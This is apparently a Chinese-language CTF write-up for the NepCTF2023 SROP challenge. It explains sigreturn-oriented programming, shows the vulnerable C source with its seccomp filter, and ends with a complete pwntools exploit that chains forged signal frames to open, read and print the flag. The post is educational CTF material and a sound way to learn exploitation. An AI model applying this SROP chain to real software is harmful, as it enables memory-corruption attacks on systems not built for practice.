 ```yaml
---
title: SROP初见杀-NepCTF2023
date: 2023-08-12 20:45:49
tags:
  - pwn
categories:
  - CS
excerpt: 这次比赛第一题就是很明显的 SROP，正好啥也不会，学习了一下
---
```


> 这次比赛第一题就是很明显的**SROP**，正好啥也不会，学习了一下

# SROP

**SROP**全称为**Sigreturn Oriented Programming**，其攻击核心为通过伪造一个**Signal Frame**（以下简称**sigFrame**）在栈上，同时触发**sigreturn**系统调用，让内核为我们恢复一个sigFrame所描述的进程，如一个shell、一个wrtie系统调用打印栈地址等，同时通过对sigFrame中rsp和rip的修改，连接多个sigFrame，可通过多次触发sigreturn系统调用，依次恢复多个sigFrame，实现不同的功能，构成SROP攻击。一个sigFrame可理解为一个进程被挂起时，用于保存进程的数据结构，当进程恢复时，通过触发sigreturn来恢复sigFrame，从而恢复一个进程。

以上内容是抄的，说白了就是：进程受到一个signal进入中断，内核会保存上下文（寄存器状态之类的，这个上下文存在**sigFrame**中），随后进入用户态执行处理函数，处理完最后又进入内核态恢复上下文

![image-20230812205434238](../img/SROP.assets/image-20230812205434238.png)

而这个保存上下文的sigFrame完全在**用户空间**，并且内核对进程挂起时保存的sigFrame以及恢复时还原的sigFrame**没有做任何关联**，这导致sigFrame可以被伪造

![image-20230812205639153](../img/SROP.assets/image-20230812205639153.png)

上图是64位的sigFrame结构。恢复上下文之前，会调用处理函数**Signal Handler**，该函数最后一个指令是`ret`，此时`rsp`正好指向sigFrame的栈顶，也就是存有函数`rt_sigreturn`地址的位置。随后调用`rt_sigreturn`，通过该函数完成上下文的恢复。

因此，我们可以在`rsp`附近伪造sigFrame，通过调用`rt_sigreturn`完成寄存器的布置

调用可以直接写内存，更常见的是进行调用号为0xf的系统调用

> 小技巧：系统调用号可以通过`cat /usr/include/asm/unistd_64.h`查看

另外，pwntools中的`SigreturnFrame()`可以方便完成寄存器的布置

# Nepctf2023-SROP

源码都喂我嘴里了

```c
//gcc -no-pie pwn.c -fno-stack-protector -z now -o pwn  -lseccomp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <syscall.h>
#include <seccomp.h>
#include <linux/seccomp.h>

char buf[0x30]="welcome to NepCTF2023!\n";

int seccomp(){
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_load(ctx);
    return 0;
}

int sys(){
    return 15;
}

int main(){
     char bd[0x30];
     seccomp();
     syscall(1,1,buf,0x30);
     return syscall(0,0,bd,0x300);
}
```

显然需要打一个orw

注意这里有一个坑，众所周知，`syscall`的系统调用号是通过`rax`传递，然而我们反汇编之后

![image-20230812211245122](../img/SROP.assets/image-20230812211245122.png)

令人意外的是，这里的`syscall`都是通过`rdi`传调用号的，猜测与这里使用`call syscall`而非直接使用`syscall`有关

既然不用`rax`传调用号，那题目中的`sys()`函数也就没有意义了，好在能找到`pop rdi`的gadgets，可以任意布置

我的思路是，先打一次srop，把flag写到bss段，顺便把栈迁移过去，随后挨着打orw



**伪造sigFreame**时需要**格外注意**

`cs` `gs` `fs` `ss`需要**保持不变**！否则会报错！



本人就在这里排查了很久

可以按照如下写法

`sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)`

从左往右依次为`cs` `gs` `fs` `ss`

exp如下

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *0x0000000004007AE\n"
	gdb.attach(p, cmd)
	pause()

host = "nepctf.1cepeak.cn"
port = 30551
#p = process("./pwn")
p = remote(host, port)

sig = 0x0000000000400750
pop_rdi = 0x0000000000400813
syscall = 0x00000000004007A8
buf = 0x0000000000601020

p.recv()
payload = "\x00"*0x38 +p64(pop_rdi)+p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 0
sig.rdx = buf
sig.rcx = 0x1000
sig.rip = syscall
sig.rsp = buf+0x10
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

p.send(payload)

# debug()

payload = "flag\x00\x00\x00\x00"
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 2
sig.rsi = buf
sig.rdx = 0
sig.rcx = 0
sig.rip = syscall
sig.rsp = buf+0x120
sig.rbp = buf+0x120
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x120,"\x00")
payload += p64(buf+0x120)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 3
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x240,"\x00")
payload += p64(buf+0x240)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 1
sig.rsi = 1
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)


p.send(payload)

p.interactive()
```

